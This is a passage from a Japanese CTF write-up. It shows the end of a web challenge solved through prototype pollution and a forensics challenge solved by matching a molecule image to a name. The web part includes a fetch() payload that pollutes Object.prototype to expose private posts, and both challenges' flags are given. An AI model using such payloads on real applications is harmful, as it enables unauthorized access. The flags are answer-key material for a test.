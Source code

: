 もし `Object.prototype.public` を `true` にできれば、`public` プロパティが存在していないフラグの記事については、`public` プロパティにアクセスする際にこれが参照されて `true` と判定され、全てのユーザから閲覧できるようになるはずです。

ということで、先述の脆弱性を利用して `Object.prototype.public` を書き換えましょう。以下の JavaScript コードを DevTools で実行します。

```javascript
fetch('/make', {
  method: 'POST',
  headers: {
    'content-type': 'application/json',
  },
  body: '{"content":"value","public":true,"constructor":{"prototype":{"public": true}}}'
}).then(res => res.text()).then(res => { console.log(res); });
```

記事一覧のページを参照するとフラグが得られました。

```
flag{8lu3pr1nTs_aRe_tHe_hiGh3s1_quA11tY_pr0t()s}
```

## Forensics
### Molecule Shirts (212)
> Apparently, this picture has a name? The flag is in the format flag{name}.
> 
> 添付ファイル: picture.png

よく分からない物質の構造式の画像が与えられました。とりあえず問題名でググってみると [Molecular Shirts](http://www.molecularshirts.com/) というサイトがヒットしました。

このサイトの [Your name in molecules!](http://www.molecularshirts.com/your-name-in-molecules/) というページで適当な名前を選択すると `picture.png` とよく似た構造式が表示されました。色々試していると、名前が長ければ長いほど画像の幅は大きくなり、また、よく似た文字列であれば出力される構造式もよく似たものが出力されることが分かりました。片っ端から試していくと、`Dr. ARMSTRONG` の時に `picture.png` と同じ画像が出力されました。Forensics とは一体…

```
flag{Dr. ARMSTRONG}
```